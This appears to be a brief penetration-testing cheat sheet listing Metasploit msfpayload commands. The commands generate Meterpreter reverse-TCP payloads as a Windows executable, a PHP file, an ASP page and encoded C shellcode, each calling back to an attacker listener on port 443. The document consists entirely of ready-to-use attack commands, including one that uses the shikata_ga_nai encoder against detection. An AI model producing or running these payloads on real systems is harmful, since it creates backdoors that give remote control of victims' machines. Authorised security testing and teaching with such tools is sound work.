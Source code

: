 ## Useful--MSF_Payloads_56
## MSF Payloads
Metasploit Payloads:

msfpayload windows/meterpreter/reverse_tcp LHOST=10.10.10.10 X > system.exe
msfpayload php/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=443 R > exploit.php
msfpayload windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=443 R | msfencode -t asp -o file.asp
msfpayload windows/meterpreter/reverse_tcp LHOST=X.X.X.X LPORT=443 R | msfencode -e x86/shikata_ga_nai -b “\x00″ -t c





